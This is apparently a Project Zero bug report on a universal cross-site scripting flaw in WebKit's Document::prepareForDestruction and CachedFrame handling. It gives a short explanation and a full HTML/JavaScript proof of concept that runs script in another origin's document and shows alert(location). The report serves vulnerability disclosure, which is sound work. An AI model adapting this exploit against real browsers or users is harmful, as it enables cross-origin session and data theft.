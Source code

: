 # UXSS via Document::prepareForDestruction and CachedFrame
### Reported by lokihardt@google.com, Mar 3 2017

Here's a snippet of Document::prepareForDestruction

```cpp
void Document::prepareForDestruction()
{
    if (m_hasPreparedForDestruction)
        return;
    ...
    detachFromFrame();

    m_hasPreparedForDestruction = true;
}
```
`Document::prepareForDestruction` is called on the assumption that the document will not be used again with its frame. However, if a frame caching is made in `Document::prepareForDestruction`, the document's frame will be stored in a CachedFrame object that will reattach the frame at some point, and thereafter, the document's frame will be never detached due to `m_hasPreparedForDestruction`.


PoC:

```html

<body>
Click anywhere.
<script>
function createURL(data, type = 'text/html') {
    return URL.createObjectURL(new Blob([data], {type: type}));
}

function waitFor(check, cb) {
    let it = setInterval(() => {
        if (check()) {
            clearInterval(it);
            cb();
        }
    }, 10);
}

window.onclick = () => {
    window.onclick = null;

    w = open(createURL(''), '', 'width=500, height=500');
    w.onload = () => {
        setTimeout(() => {
            let f = w.document.body.appendChild(document.createElement('iframe'));
            f.contentWindow.onunload = () => {
                f.contentWindow.onunload = null;

                w.__defineGetter__('navigator', () => new Object());

                let a = w.document.createElement('a');
                a.href = 'about:blank';
                a.click();

                setTimeout(() => {
                    w.history.back();
                    setTimeout(() => {
                        let d = w.document;
                        w.location = 'javascript:' + encodeURI(`"<script>location = 'https://abc.xyz/';</scrip` + `t>"`);

                        let it = setInterval(() => {
                            try {
                                w.xxxx;
                            } catch (e) {
                                clearInterval(it);

                                let a = d.createElement('a');
                                a.href = 'javascript:alert(location);';
                                a.click();
                            }
                        }, 10);
                    }, 100);
                }, 100);
            };

            w.location = 'javascript:""';
        }, 0);
    };

}

</script>
</body>
```

https://bugs.chromium.org/p/project-zero/issues/detail?id=1163
